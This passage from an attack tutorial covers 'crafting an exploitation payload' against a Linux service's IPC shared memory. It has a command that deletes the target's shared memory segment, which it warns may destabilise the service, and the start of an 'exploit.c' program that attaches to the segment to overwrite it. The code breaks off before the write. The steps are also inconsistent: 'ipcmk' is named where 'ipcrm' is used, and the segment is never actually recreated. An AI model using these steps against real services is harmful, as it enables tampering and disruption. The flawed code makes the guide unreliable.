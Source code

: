 5.  **Craft an exploitation payload:**

    This step depends heavily on the specific target application and how it uses IPC.  For example, if you identify a shared memory segment containing configuration data, you might craft a payload to modify that data.  If you find a message queue used for command processing, you might send a malicious command.
    Since this example is general, let's assume we identified a shared memory segment with `key 0xdeadbeef`.

    **Example: Writing to Shared Memory**
    First install `ipcmk` (required for shared memory creation and manipulation)

    ```bash
    apt-get update && apt-get install -y iproute2 util-linux
    ```

    Then use `ipcrm` to delete the shared memory segment. **WARNING: This may cause instability in the target service.**

    ```bash
    ipcrm -m <shmid>
    ```
    Where <shmid> is the shmid of the target shared memory.

    Then, we'll recreate the shared memory segment with the same key and overwrite its contents. Note that this requires understanding the data format expected by the target application.  The following example creates a small C program for this purpose.

    Create a file called `exploit.c` with the following content.

    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <sys/ipc.h>
    #include <sys/shm.h>
    #include <string.h>

    #define SHM_KEY 0xdeadbeef  // Replace with the actual key
    #define SHM_SIZE 1024         // Replace with the actual size (or a safe smaller size)

    int main() {
        int shmid;
        char *shmaddr;

        // Get the shared memory segment ID
        shmid = shmget(SHM_KEY, SHM_SIZE, 0666);
        if (shmid == -1) {
            perror("shmget failed");
            exit(1);
        }

        // Attach the shared memory segment
        shmaddr = shmat(shmid, NULL, 0);
        if (shmaddr == (char *) -1) {
            perror("shmat failed");
            exit(1);
        }
